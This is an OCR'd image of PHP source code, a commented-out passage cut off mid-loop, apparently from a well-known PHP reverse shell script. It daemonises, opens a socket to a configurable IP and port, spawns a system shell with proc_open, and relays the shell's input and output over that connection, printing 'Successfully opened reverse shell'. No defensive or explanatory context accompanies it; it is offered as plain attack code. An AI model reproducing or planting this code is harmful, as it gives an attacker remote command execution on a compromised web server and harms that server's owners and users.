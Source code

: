 ```PHP
// 	if ($pid) {
// 		exit(0);  // Parent exits
// 	}
// 	if (posix_setsid() == -1) {
// 		printit("Error: Can't setsid()");
// 		exit(1);
// 	}
// 
// 	$daemon = 1;
// } else {
// 	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
// }
// 
// chdir("/");
// 
// umask(0);
// 
// // Open reverse connection
// $sock = fsockopen($ip, $port, $errno, $errstr, 30);
// if (!$sock) {
// 	printit("$errstr ($errno)");
// 	exit(1);
// }
// 
// $descriptorspec = array(
//    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
//    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
//    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
// );
// 
// $process = proc_open($shell, $descriptorspec, $pipes);
// 
// if (!is_resource($process)) {
// 	printit("ERROR: Can't spawn shell");
// 	exit(1);
// }
// 
// stream_set_blocking($pipes[0], 0);
// stream_set_blocking($pipes[1], 0);
// stream_set_blocking($pipes[2], 0);
// stream_set_blocking($sock, 0);
// 
// printit("Successfully opened reverse shell to $ip:$port");
// 
// while (1) {
// 	if (feof($sock)) {
// 		printit("ERROR: Shell connection terminated");
// 		break;
// 	}
// 
// 	if (feof($pipes[1])) {
// 		printit("ERROR: Shell process terminated");
// 		break;
// 	}
// 
// 	$read_a = array($sock, $pipes[1], $pipes[2]);
// 	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
// 
// 	if (in_array($sock, $read_a)) {
// 		if ($debug) printit("SOCK READ");
// 		$input = fread($sock, $chunk_size);
// 		if ($debug) printit("SOCK: $input");
// 		fwrite($pipes[0], $input);
```